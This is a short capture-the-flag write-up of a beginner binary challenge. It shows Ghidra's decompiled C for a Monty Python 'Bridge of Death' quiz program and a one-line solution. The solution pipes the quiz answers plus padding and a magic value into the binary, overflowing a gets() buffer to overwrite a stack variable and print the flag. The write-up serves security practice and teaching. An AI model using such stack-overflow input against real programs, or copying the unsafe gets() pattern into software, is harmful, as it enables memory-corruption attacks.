 This was a pretty cute one. Ghidra decompiles the code fine:

```c
undefined4 main(void)

{
  int iVar1;
  char local_43 [43];
  int local_18;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

This means we need to enter a few Monty Python quotes, then have the input overflow to overwrite local_18 on the stack. I did this with:

`(cat answers.txt; echo -e $'0123456789012345678901234567890123456789012\xc8\x10\xa1\xde'; cat) | ./pwn1`

